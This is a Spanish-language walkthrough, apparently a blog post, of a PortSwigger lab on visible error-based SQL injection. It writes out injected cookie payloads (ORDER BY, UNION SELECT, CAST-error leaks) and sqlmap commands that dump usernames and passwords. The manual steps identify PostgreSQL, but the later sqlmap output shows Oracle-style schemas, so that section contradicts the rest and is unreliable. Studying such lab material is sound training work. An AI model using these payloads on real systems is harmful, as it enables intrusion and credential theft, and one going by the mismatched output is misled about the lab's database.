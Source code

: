 ```yaml
---
title: "Visible error-based SQL injection"
date: 2025-02-09 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - Visible error-based SQL injection
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL`. La aplicación utiliza una `cookie` de seguimiento para análisis y `ejecuta` una `consulta SQL` que incluye el valor de la cookie enviada, los resultados de la `consulta SQL` no se devuelven. La `base` de `datos` contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el `laboratorio`, hay que `encontrar` una forma de `filtrar` la `contraseña` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-13/image_1.png)

Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`

![](/assets/img/SQLI-Lab-13/image_2.png)

Si enviamos una petición normal a la web no notaremos nada extraño, sin embargo, si añadimos una `'` al en el campo `TrackingId` nos arrojará un `error`, esto quiere decir que podemos hemos logrado `interferir` en la `consulta SQL` que se está tramitando. Esto se debe a que la consulta que se está haciendo por detrás es la siguiente

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

![](/assets/img/SQLI-Lab-13/image_3.png)

Si en el campo cookie efectuamos la inyección, `' or 1=1-- - ` o `' and 1=1-- - ` el `error` ya `no aparece` debido a que `la query se está ejecutando correctamente`. Para obtener el `número de columnas existentes` usamos un `order by`, en este caso sabemos que hay una columna, debido a que si hacemos `order by 2` o superior nos arroja un error

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+order+by+1--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

`Descartamos` que se esté empleando `Oracle`, debido a que `no ha arrojado ningún error`, si fuera Oracle nos arrojaría un error debido a que haría falta añadir `from dual`

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+union+select+null--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

Si `listamos` la `versión` de la `base` de `datos` con `@@version` nos da un `error`, por lo tanto también podemos `descartar` las bases de datos `MySQL` y `Microsoft`. Al probar con `version()` nos `devuelve` un `200 OK` lo que quiere decir que no ha producido ningún error y por lo tanto, estamos ante `PostgreSQL`

```
Cookie: TrackingId='+union+select+version()--+-+; session=4t32wyejFSosLimiWeBWotzdpQskYvmg
```

He probado a verificar si había alguna diferencia entre usar `or` y `and` en consultas como `' or (select 'a')='b'-- - ` y no hay diferencia alguna. Independientemente del operador utilizado al comparar dos strings, da igual que no sean iguales, no nos arroja ningún error. Por lo tanto, no vamos a poder utilizar `substr()` o `length()` para obtener la longitud y posteriormente bruteforcear carácter por carácter. Si nos fijamos bien `ha cambiado el error que se mostraba anteriormente` al usar este `payload`

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_4.png)

Para que no se produzca el error podemos simplemente añadir 1=

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

Comprobamos que se ve reflejado en la respuesta el input introducido

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+'testing')+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_5.png)

Una vez hecho esto ya podemos ver el `output` que se produce al `listar` la `version` de al `base` de `datos` modificando el `payload` anterior

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+version())+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_6.png)

Hemos tenido que `borrar caracteres` debido a que hay un `límite máximo de caracteres`, si nos pasamos de 60 caracteres la consulta no se llevará a cabo. Por esta misma razón no podemos listar tablas ni bases de datos, la única opción para para enumerar tablas que se me ocurre es `bruteforcear` el `nombre` de las `tablas` para la `base de datos actual` mediante un `Cluster bomb` o un `script en python` y usando este `payload`. El primer `payload` serían las `letras` de la `a-z` y el segundo sería un `diccionario` con el `nombre` de `tablas`

```
Cookie: TrackingId='+and+1=cast((select+'a'+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

`Si la tabla existe nos responderá con este mensaje`, una vez encontrada una tabla existente podemos `bruteforcear` el `nombre` de las `columnas` con un `ataque` de `tipo Sniper`

![](/assets/img/SQLI-Lab-13/image_7.png)

Por el contrario `si la tabla no existe nos responderá con este otro mensaje`, de esta forma, si nos fijamos en el `Content-Length` podremos saber si existe o no

![](/assets/img/SQLI-Lab-13/image_8.png)

`Obtenemos` el `nombre` de `usuario`

```
Cookie: TrackingId='+and+1=cast((select+username+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_9.png)

`Obtenemos` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId='and+1=cast((select+password+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_10.png)

También podemos `obtener` las `credenciales` usando `sqlmap`, para ello, lo primero es `listar` a los `propietarios`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch -D peter -T uers --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
available databases [7]:
[*] "SYSTEM"
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] XDB
```

`Listamos` las `tablas` del propietario `PETER`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter --tables --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
[2 tables]
+----------+
| TRACKING |
| USERS    |
+----------+
```

`Listamos` las `columnas` de la tabla `USERS`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
Table: USERS
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| EMAIL    | VARCHAR2 |
| PASSWORD | VARCHAR2 |
| USERNAME | VARCHAR2 |
+----------+----------+
```

`Listamos` el `contenido` de las columnas `USERNAME` y `PASSWORD` 

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users -C username,password --dump --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2     
Database: PETER
Table: USERS
[3 entries]
+---------------+----------------------+
| USERNAME      | PASSWORD             |
+---------------+----------------------+
| administrator | 865232i99b9ovbdp8kvn |
| wiener        | 6zkofcbzkuzr8zwssnb3 |
| carlos        | 6s50h6zjox61npql60g0 |
+---------------+----------------------+
```

Nos `logueamos` con las credenciales `administrador:865232i99b9ovbdp8kvn`

![](/assets/img/SQLI-Lab-13/image_11.png)

![](/assets/img/SQLI-Lab-13/image_12.png)
